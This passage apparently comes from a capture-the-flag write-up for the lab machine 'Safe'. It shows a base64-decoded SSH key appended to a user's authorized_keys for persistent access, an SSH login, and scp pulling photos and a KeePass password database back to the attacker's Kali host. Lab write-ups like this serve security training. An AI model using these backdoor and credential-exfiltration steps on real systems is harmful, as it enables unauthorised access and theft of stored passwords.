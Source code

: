 ```

$ echo c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQ...[snip]... | base64 -d >> /home/user/.ssh/authorized_keys

```

Now I can ssh in:

```

root@kali# ssh -i ~/id_rsa_generated user@10.10.10.147
The authenticity of host '10.10.10.147 (10.10.10.147)' can't be established.
ECDSA key fingerprint is SHA256:SLbYsnF/xaUQIxRufe8Ux6dZJ9+Jler9PTISUR90xkc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.147' (ECDSA) to the list of known hosts.
Linux safe 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jul 27 16:55:57 2019 from 10.10.14.6
user@safe:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)

```

## Priv: user –> root

### Enumeration

In the home directory, there’s a few files besides `user.txt`:

```

user@safe:~$ ls
IMG_0545.JPG  IMG_0546.JPG  IMG_0547.JPG  IMG_0548.JPG  IMG_0552.JPG  IMG_0553.JPG  myapp  MyPasswords.kdbx  user.txt

```

I’ll use `scp` to pull them back:

```

root@kali# scp -i ~/id_rsa_generated user@10.10.10.147:~/IMG* .
IMG_0545.JPG                                                       100% 1863KB 944.7KB/s   00:01    
IMG_0546.JPG                                                       100% 1872KB   1.6MB/s   00:01    
IMG_0547.JPG                                                       100% 2470KB   2.0MB/s   00:01    
IMG_0548.JPG                                                       100% 2858KB   1.5MB/s   00:01    
IMG_0552.JPG                                                       100% 1099KB   1.6MB/s   00:00    
IMG_0553.JPG                                                       100% 1060KB   2.3MB/s   00:00    
root@kali# scp -i ~/id_rsa_generated user@10.10.10.147:~/*.kdbx .
MyPasswords.kdbx                                                   100% 2446    61.1KB/s   00:00

```
